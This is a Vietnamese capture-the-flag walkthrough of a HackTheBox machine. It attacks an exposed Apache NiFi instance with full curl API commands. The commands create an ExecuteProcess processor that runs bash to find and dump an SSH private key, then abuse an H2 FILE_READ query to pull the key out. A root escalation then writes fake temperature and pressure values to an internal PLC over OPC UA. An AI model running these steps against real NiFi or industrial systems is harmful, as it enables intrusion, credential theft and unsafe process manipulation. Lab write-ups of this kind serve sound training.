# Mô tả 
- Apache nifi lộ ra ngoài 
- User Anonymous được phép write k cần login vẫn sửa được flow/component 
- Từ đó gọi 1 Nifi api - tạo 1 processor ExecuteProcess - Thực hiện đọc được ssh private key rồi đưa ra file tạm - ssh
- Sau khi vào được dưới quyền user tìm thấy dịch vụ nội bộ OPC UA ở cổng 4840 và lợi dụng logic của maintenance window để leo lên root

# Scan với nmap ; tìm subdomain ; xác định target
- Phát hiện 22 và 80 và tiến hành check bằng `curl -i http://10.129.245.123/` nhận về `http://helix.htb/`

   
- Tìm subdomain nhận về `flow.helix.htb`

   
- Xác định dịch vụ Nifi

   
- Xác nhận user anonymous

   
- Liệt kế resource mà hiện user có thể truy cập `curl -s -H "Host: flow.helix.htb" http://10.129.245.123/nifi-api/resources` nhận được `ExecuteSQL` và `MaintenanceDB`

# Đọc cấu hình  
- Lấy id root group bằng `curl -s -H "Host: flow.helix.htb" http://10.129.245.123/nifi-api/flow/process-groups/root` nhận về id `f203bc07-019b-1000-516b-eaedd48609d1`
- Đọc processor ExecuteSQL với
```code
curl -s -H "Host: flow.helix.htb" \
http://10.129.245.123/nifi-api/processors/f4797168-019b-1000-2229-6c29fab7ba7c
```
Nhận được 
```code
"config":{
  "properties":{
    "Database Connection Pooling Service":"f483dcc4-019b-1000-2dd4-9a275954eb10",
    "SQL select query":"SELECT FILE_READ('/tmp/operator_key.out') AS DATA",
```
Y nghia:
- Database Connection Pooling Service cho biết processor này đang dùng controller service nào
- SQL select query cho biết query đang chạy 
Trong output của bạn , nó đang đọc:
`SELECT FILE_READ('/tmp/operator_key.out') AS DATA`
Nghĩa là ai đó đã sửa processor này,để đọc file /tmp/operator_key.out.
- Đọc Controller service MaintainanceDB
```code
curl -s -H "Host: flow.helix.htb" \
http://10.129.245.123/nifi-api/controller-services/f483dcc4-019b-1000-2dd4-9a275954eb10
```
Nhận được
```code 
"properties":{
  "Database Connection URL":"jdbc:h2:mem:maint;MODE=MySQL;DB_CLOSE_DELAY=-1",
  "Database Driver Class Name":"org.h2.Driver",
  "database-driver-locations":"/opt/nifi-1.21.0/lib/h2-2.1.214.jar",
  "Database User":"operator",
```
Đây là đoạn quan trọng
Ý nghĩa
        - DB đang là H2
        - Driver là org.h2.Driver
        - có file jar H2
        - đây là manh mối cho hướng exploit H2

# Tạo Processor Dump Key
Ta tạo 1 ExecuteProcess mới để tìm file SSH key và dump ra `/tmp/operator_key.out`.
```code
curl -s -X POST -H "Host: flow.helix.htb" -H "Content-Type: application/json" \
http://10.129.245.123/nifi-api/process-groups/f203bc07-019b-1000-516b-eaedd48609d1/processors \
-d '{
  "revision":{"version":0},
  "component":{
    "type":"org.apache.nifi.processors.standard.ExecuteProcess",
    "name":"dumpkey",
    "position":{"x":1200.0,"y":120.0},
    "config":{
      "properties":{
        "Command":"/bin/bash",
        "Command Arguments":"-c~find /opt /home -name operator_id_ed25519.bak -exec cat {} \\; > /tmp/operator_key.out 2>&1",
        "Redirect Error Stream":"true",
        "Working Directory":"/tmp",
        "Argument Delimiter":"~"
      }
    }
  }
}'
```

   

# Sửa Processor để Auto-Terminate
Processor mới tạo sẽ INVALID vì relationship success chưa nối đi đâu cả.
Sửa lại:
```code
curl -s -X PUT -H "Host: flow.helix.htb" -H "Content-Type: application/json" \
http://10.129.245.123/nifi-api/processors/02bec269-019f-1000-1cea-f4397c3b5b4d \
-d '{
  "revision":{"version":1},
  "component":{
    "id":"02bec269-019f-1000-1cea-f4397c3b5b4d",
    "config":{
      "properties":{
        "Command":"/bin/bash",
        "Command Arguments":"-c~find /opt /home -name operator_id_ed25519.bak -exec cat {} \\; > /tmp/operator_key.out 2>&1",
        "Redirect Error Stream":"true",
        "Working Directory":"/tmp",
        "Argument Delimiter":"~"
      },
      "autoTerminatedRelationships":["success"]
    }
  }
}'
```

   
- id: 02bec269-019f-1000-1cea-f4397c3b5b4d
- revision.version: 2
- state: STOPPED

# Chạy Processor Dump Key
Sau khi VALID, run:
```code
curl -s -X PUT -H "Host: flow.helix.htb" -H "Content-Type: application/json" \
http://10.129.245.123/nifi-api/processors/01e5c43f-019f-1000-9384-fa5a65dc8eee/run-status \
-d '{
  "revision":{"version":3},
  "state":"RUNNING",
  "disconnectedNodeAcknowledged":false
}'
```

   
Mục tiêu của processor này:
- tìm file `operator_id_ed25519.bak`
- cat nội dung file vào `/tmp/operator_key.out`

# Stop ExecuteSQL nếu đang chạy 
Muốn sửa config ExecuteSQL, nó phải STOPPED.
```code
curl -s -X PUT -H "Host: flow.helix.htb" -H "Content-Type: application/json" \
http://10.129.245.123/nifi-api/processors/f4797168-019b-1000-2229-6c29fab7ba7c/run-status \
-d '{
  "revision":{"version":264},
  "state":"STOPPED",
  "disconnectedNodeAcknowledged":false
}'
```
Nếu revision khác, GET lại:
```code
curl -s -H "Host: flow.helix.htb" \
http://10.129.245.123/nifi-api/processors/f4797168-019b-1000-2229-6c29fab7ba7c
```

# Sửa ExecuteSQL để đọc File Key
Dat query:
`SELECT FILE_READ('/tmp/operator_key.out') AS DATA`
Lệnh:
```code
curl -s -X PUT -H "Host: flow.helix.htb" -H "Content-Type: application/json" \
http://10.129.245.123/nifi-api/processors/f4797168-019b-1000-2229-6c29fab7ba7c \
--data-binary '{
  "revision":{"version":265},
  "component":{
    "id":"f4797168-019b-1000-2229-6c29fab7ba7c",
    "config":{
      "properties":{
        "Database Connection Pooling Service":"f483dcc4-019b-1000-2dd4-9a275954eb10",
        "sql-pre-query":null,
        "SQL select query":"SELECT FILE_READ('\''/tmp/operator_key.out'\'') AS DATA",
        "sql-post-query":null,
        "Max Wait Time":"0 seconds",
        "dbf-normalize":"false",
        "dbf-user-logical-types":"false",
        "compression-format":"NONE",
        "dbf-default-precision":"10",
        "dbf-default-scale":"0",
        "esql-max-rows":"0",
        "esql-output-batch-size":"0",
        "esql-fetch-size":"0",
        "esql-auto-commit":"true"
      }
    }
  }
}'
```
# Chạy lại ExecuteSQL
```code
curl -s -X PUT -H "Host: flow.helix.htb" -H "Content-Type: application/json" \
http://10.129.245.123/nifi-api/processors/f4797168-019b-1000-2229-6c29fab7ba7c/run-status \
-d '{
  "revision":{"version":266},
  "state":"RUNNING",
  "disconnectedNodeAcknowledged":false
}'
```
# Lấy Output từ Provenance
 
Cách nhanh nhất là download thằng event output mà đã xác nhận
```code
curl -s -H "Host: flow.helix.htb" \
http://10.129.245.123/nifi-api/provenance-events/786810/content/output \
-o /tmp/operator_key.avro
```
# Rút SSH Key
```code
strings /tmp/operator_key.avro | sed -n '/BEGIN OPENSSH PRIVATE KEY/,/END OPENSSH PRIVATE KEY/p' > /tmp/operator_id_ed25519
chmod 600 /tmp/operator_id_ed25519
cat /tmp/operator_id_ed25519
```

   

- Ssh và get flag 

   
User flag : `04904d915772b5a61171a1e54a6d71cf`

# Kiểm tra sudo 

   

# Kiểm tra service nội bộ

   
- helix-plc, helix-safety, helix-hmi đang running

- Sau khi enumerate sudo permissions, phát hiện user `operator` có thể chạy `/usr/local/sbin/helix-maint-console` với quyền `root`. Đọc nội dung script nó kiểm tra file `/opt/helix/state/maintenance_window` và chỉ cấp root shell nếu maintenance window đang có hiệu lực.
# Logic root shell

   

 
Bạn sẽ thấy logic:
- Mode = MAINTENANCE chưa đủ
- phải có điều kiện nguy hiểm :
  - Temp >= 295C hoac
  - Pressure >= 73 bar
- Nhưng vẫn phải:
  - TripActive = False

# Làm cho PCL nội bộ thỏa mãn điều kiện

- Lệnh này dùng OPC UA CLIENT để nói với PLC (programmable logic controller - bộ điều khiển công nghiệp) nội bộ và sửa các giá trị để thỏa mãn mở maintenance window 

   
- Xác nhận lại xem window mở chưa 

   
- Lưu ý khi lấy được shell root phải làm nhanh vì 1 thời gian sau thời gian maintaince sẽ hết

   

